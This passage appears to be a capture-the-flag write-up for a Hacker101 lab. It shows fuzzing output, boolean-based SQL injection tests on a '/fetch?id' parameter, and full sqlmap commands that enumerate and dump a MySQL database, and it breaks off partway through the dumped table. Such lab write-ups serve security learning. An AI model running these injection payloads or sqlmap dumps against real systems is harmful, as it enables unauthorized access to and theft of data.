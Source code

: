 ```

02                      [Status: 200, Size: 98716, Words: 425, Lines: 419, Duration: 283ms]
1                       [Status: 200, Size: 97806, Words: 322, Lines: 379, Duration: 263ms]
01                      [Status: 200, Size: 97806, Words: 322, Lines: 379, Duration: 358ms]
2                       [Status: 200, Size: 98716, Words: 425, Lines: 419, Duration: 354ms]
id                      [Status: 200, Size: 97806, Words: 322, Lines: 379, Duration: 182ms]
true                    [Status: 200, Size: 97806, Words: 322, Lines: 379, Duration: 124ms]
:: Progress: [4614/4614] :: Job [1/1] :: 328 req/sec :: Duration: [0:00:26] :: Errors: 0 ::

```

The "true" result tells me that this input isn't properly sanitized as many programming languages equate true to 1. Also, when I enter 00000000001 for id or any amount of leading 0s the response is the same as id=1.

I test SQLi with a payload id=1;
If this yields the same response as id=1 SQLi will be explored more.

After sending hte request through burpsuite, the response is the same.

#### SQLi for /fetch?id parameter

Boolean based injection test - I send id=1 AND 1=1 --- expected response is the same as id=1 and this is confirmed. Next I try id=1 AND 1=2 --- expected response is a 404,500 and this is confirmed. SQLi vulnerability is confirmed.

Once confirmed, I use sqlmap to get database type, names, tables, columns, and values.

Inital run:

```
sqlmap -u "https://ade791f008ebf6f1b0db57874634e47f.ctf.hacker101.com/fetch?id=1" --dbs --level=5 --risk=3 --batch --threads=10
```

This command enumerates the database names:

```
available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```

level5 is interesting so I continue to get tables, columns, and values.

```
sqlmap -u "https://ade791f008ebf6f1b0db57874634e47f.ctf.hacker101.com/fetch?id=1" --dbms=mysql -D level5 --dump --level=5 --risk=3 --batch --threads=10
```

The results of this command tell me there are two tables in the "level5" database: "albums" and "photos".

Results:

```
Database: level5
Table: photos
[3 entries]
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
```